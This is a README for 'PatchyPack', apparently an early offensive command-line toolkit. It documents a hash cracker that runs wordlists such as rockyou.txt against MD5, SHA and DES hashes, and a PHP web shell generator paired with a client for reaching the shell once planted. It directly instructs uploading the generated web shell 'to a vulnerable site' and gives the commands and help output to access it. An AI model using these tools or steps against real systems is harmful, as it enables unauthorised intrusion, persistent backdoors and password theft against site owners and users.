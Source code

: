 # PatchyPack [Alpha]
Patchy Pack [Alpa]. A set of command line tools for anything from port scanning to web shell generation.
Patchy Pack is far from finished with many more updates, features, and bug fixes on the way.
## Reccomended OS: Linux
# Installation

#### DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip, can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support

After downloading the PatchyTools folder run the setup script for setting up aliases/shortcuts:
```
chmod +rwx setup
./setup
```
While you're in the PatchyTools directory give permissions to the genshell bash script. This script is responsible for generating php webshells.
```
chmod +rwx genshell
```
Note that you'll have to close and reopen the current shell session or run:
```
source .bash_profile
```
This will let the changes take effect. Bash profiles may vary. 
Next, run the make.py script for installing necessary dependencies and packages:
```
python3 make.py
```
# Intro
Check out the options for Patchy Pack by typing: 
```
patchy
```
Further Usage and examples can be found on: https://patchyst.github.io/patchy/ (I haven't finished documentation on the tools yet :/)

# Cracking Hashes with Patchy Pack
So far Patchyhash can crack a variety of hashing algorithims such as md5, sha512, sha256, sha224, sha1, sha384, and DES.
 ## Usage and examples:
```
$ patchyhash -h

usage: patchyhash [-h] [-ht HASH_TYPE] [-s SALT] [-va] [-v]
                          hash_path dict_path

positional arguments:
  hash_path             Path to password hash file
  dict_path             Path to password dictionary file

optional arguments:
  -h, --help            show this help message and exit
  -ht HASH_TYPE, --hash_type HASH_TYPE
                        specify hash type
  -va, --viewall        View all passwords and hashes being compared. usage
                        example: --viewall Y
  -v, --version         show program's version number and exit
```
The positional arguments are required. The first is the path to the file containing the target hash. The second positional argument is the wordlist for pathcyhash to check against. If no hashing algorithim is specified patchyhash defaults to md5
Example:
```
patchyhash ~/md5password.txt ~/worlists/rockyou.txt
```
Optional arguments include salt, hash type, and an option to view all hashes being checked against target hash.
```
patchyhash ~/shapassword.txt ~/worlists/rockyou.txt --hast_type sha256 --viewall
```
* --viewall: view all hashes compared with target hash
* --hash_type: specify hashing algorithim (in this case sha256)
```
patchyhash ~/shapassword.txt ~/worlists/rockyou.txt -ht sha256 -va
```
* -va: Same as view all
* -ht: same as hashtype
# Generating and Accessing Web Shell with Patchy Pack
Before accessing a web shell we have to generate it. As of now. patchygen only generates php based webshells.
```
$ patchygen -h
Desc: Used to generate a webshell
Required Usage: patchygen webshell_file webshell_name
Optional Usage: [-p]: set a password for php shell
	example: patchygen shell.php shell -p passw0rd!
		 patchygen /root/webshells/myshell.php nameofmyshell
```
To generate a simple php webshell with no password just give a the webshell file path and the desired shell name:
```
patchygen ~/webshells/shell.php shellname
```
Upload the webshell to a vulnerable site and access it manually using a get request or patchyshell for easier access.
```
patchyshell http://somesite.com/shell.php shellname
```
patchyshell help page:
```
usage: accessshell.py [-h] [--password PASSWORD] target_url shell_name

positional arguments:
  target_url           The target URL
  shell_name           Name of shell

optional arguments:
  -h, --help           show this help message and exit
  --password PASSWORD  password for shell
  ```
  To generate a webshell with a password simply add -p option
```
patchygen ~/webshells/shell.php shellname -p passw0rd!
```
Once again this can be manually accessed from the browser. However, patchyshell makes it much easier to access and use the shell:
```
patchyshell http://somesite.com/shell.php shellname --password passw0rd!
```
